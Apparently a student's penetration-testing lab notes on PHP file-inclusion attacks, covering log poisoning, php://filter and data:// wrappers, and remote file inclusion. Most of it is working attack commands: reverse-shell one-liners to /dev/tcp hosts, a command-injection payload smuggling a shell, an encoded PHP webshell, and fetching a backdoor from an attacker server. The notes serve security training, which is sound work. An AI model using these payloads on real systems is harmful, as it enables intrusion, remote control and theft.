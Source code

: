 LFI aims to include executable code in the web app's running code. When we navigate to that file, we are able to specify variables to run that code! This is different compared to Directory Traversal which allows us to read CONTENTS of files on the web server.

We can even obtain RCE via [_Log Poisoning_](https://owasp.org/www-community/attacks/Log_Injection).
```
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
*This shows that User Agent Header is stored in the access log.*

![[Pasted image 20250703160914.png]]
*We can use Burp to include malicious PHP code that will execute in the access.log file!*
	This snippet accepts a command via the _cmd_ parameter and executes it via the PHP [_system_](https://www.php.net/manual/en/function.system.php) function on the target system. We'll use [_echo_](https://www.php.net/manual/en/function.echo.php) to display command output.

![[Pasted image 20250703161014.png]]
`&cmd=[command]` allows us to make the server execute some code such as a reverse shell. that would be `&cmd=bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`. This is our bash **reverse shell one liner**.

```
For [[9.4 OS Command Injection]] Captstone, 

curl -X POST http://192.168.234.16/login -d "username=&password=&ffa=test%22%26%26bash+-c+'bash+-i+>%26+/dev/tcp/192.168.48.143/443+0>%261'%22"

Above command worked but not the bash encoded reverse shell. It uses single quotes for the inner bash command.

```

We can also encode this and it would look like `bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22`

`python3 -c 'import pty; pty.spawn("/bin/bash")'`
	To stabilise shell.

NOTE that we can also do this on Windows but file paths are application dependent. We could also use system that don't use PHP but one of the following:
- [_Perl_](https://www.perl.org/)
- [_Active Server Pages Extended_](https://en.wikipedia.org/wiki/ASP.NET)
- [_Active Server Pages_](https://en.wikipedia.org/wiki/Active_Server_Pages)
- [_Java Server Pages_](https://en.wikipedia.org/wiki/Jakarta_Server_Pages)

# PHP Wrappers

Syntax in PHP that allows it to include additional capabilities to inputs. There are 2 main wrappers that we are concerned with that is `php://filter/...` and `php://data/...`. These can be further customized with additional syntax. 

`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`
	This does not do any filtering and is equivalent to using no parameters in a function.

`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
	This would ask php to read the content of admin.php and convert its contents to base64.

*While the **php://filter** wrapper can be used to include the contents of a file, we can use the **data://** wrapper to achieve code execution.*

`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"` 
	This embeds our malicious php to the page and then runs it! (if php has this vulnerability).  [_Allow_url_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting needs to be enabled.

`curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"`
	If there are firewalls in place, we can encode our data to be embedded and executed in base64.

# Remote File Inclusion

Less common than LFI but also need [_Allow_url_include_](https://www.php.net/manual/en/filesystem.configuration.php) setting to be enabled. We can find webshell inbuilt in Kali in `/usr/share/webshells`. `simple-backdoor.php` is the webshell for php. `cat`ing this would also show how it's used!

 While LFI vulnerabilities can be used to include local files, RFI vulnerabilities allow us to include files from a remote system over [_HTTP_](https://developer.mozilla.org/en-US/docs/Web/HTTP) or [_SMB_](https://en.wikipedia.org/wiki/Server_Message_Block). The included file is also executed in the context of the web application.

![[Pasted image 20250703164023.png]]

`python3 -m http.server` to host current directory (which has webshell)
	We can then do `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"` 

3 main types. First is uploading uploading a malicious script so it is executed on the web app. Second is combining it with another vulnerability like directory traversal to execute the file. Third is dependent on user interaction like uploading a .docx file with malicious macros.
